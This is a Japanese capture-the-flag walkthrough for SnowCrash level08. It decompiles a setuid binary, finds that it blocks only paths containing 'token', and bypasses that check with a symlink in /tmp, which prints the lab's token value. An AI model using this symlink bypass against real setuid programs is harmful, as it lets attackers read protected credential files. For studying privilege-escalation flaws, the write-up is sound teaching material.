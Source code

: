 ## ~に存在するファイルを確認
```sh
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

## ghidraで逆アセンブル
```c
void main(int param_1,undefined4 *param_2)
{
  char *pcVar1;
  int __fd;
  size_t __n;
  int in_GS_OFFSET;
  undefined local_414 [1024];
  int local_14;

  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (param_1 == 1) {
    printf("%s [file to read]\n",*param_2);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  pcVar1 = strstr((char *)param_2[1],"token");
  if (pcVar1 != (char *)0x0) {
    printf("You may not access \'%s\'\n",param_2[1]);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  __fd = open((char *)param_2[1],0);
  if (__fd == -1) {
    err(1,"Unable to open %s",param_2[1]);
  }
  __n = read(__fd,local_414,0x400);
  if (__n == 0xffffffff) {
    err(1,"Unable to read fd %d",__fd);
  }
  write(1,local_414,__n);
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

## 関数のポイント
- `strstr`を使用し、`argv[1]`に`token`文字列が含まれているか確認している。もし、含まれている場合はエラーになる。
- `argv[1]`で指定されたファイルを開き`read`した内容を出力している。

## エクスプロイト
`token` 文字列含めないようにして`token file`を指すようなシンボリックリンクを作成すれば`strstr`のチェックを回避できる。

```sh
level08@SnowCrash:~$  ln -s /home/user/level08/token /tmp/hoge
level08@SnowCrash:~$  ./level08 /tmp/hoge
quif5eloekouj29ke0vouxean
```

su flag08でpassいれて、getflagを実行する。
